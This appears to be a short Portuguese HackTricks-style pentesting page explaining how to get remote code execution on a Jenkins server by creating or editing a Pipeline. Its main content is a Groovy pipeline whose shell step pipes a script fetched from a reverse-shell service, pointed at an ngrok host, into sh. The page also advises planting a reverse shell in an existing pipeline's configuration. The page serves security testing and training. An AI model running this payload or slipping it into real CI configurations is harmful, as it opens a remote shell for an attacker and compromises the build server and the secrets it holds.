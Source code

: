 # Jenkins RCE Criando/Modificando Pipeline

{{#include ../../banners/hacktricks-training.md}}

## Criando um novo Pipeline

Em "Novo Item" (acessível em `/view/all/newJob`) selecione **Pipeline:**

![](<../../images/image (235).png>)

Na **seção Pipeline** escreva o **reverse shell**:

![](<../../images/image (285).png>)
```groovy
pipeline {
agent any

stages {
stage('Hello') {
steps {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
'''
}
}
}
}
```
Finalmente clique em **Salvar** e **Construir Agora** e o pipeline será executado:

![](<../../images/image (228).png>)

## Modificando um Pipeline

Se você puder acessar o arquivo de configuração de algum pipeline configurado, você pode **modificá-lo adicionando seu reverse shell** e então executá-lo ou esperar até que ele seja executado.

{{#include ../../banners/hacktricks-training.md}}
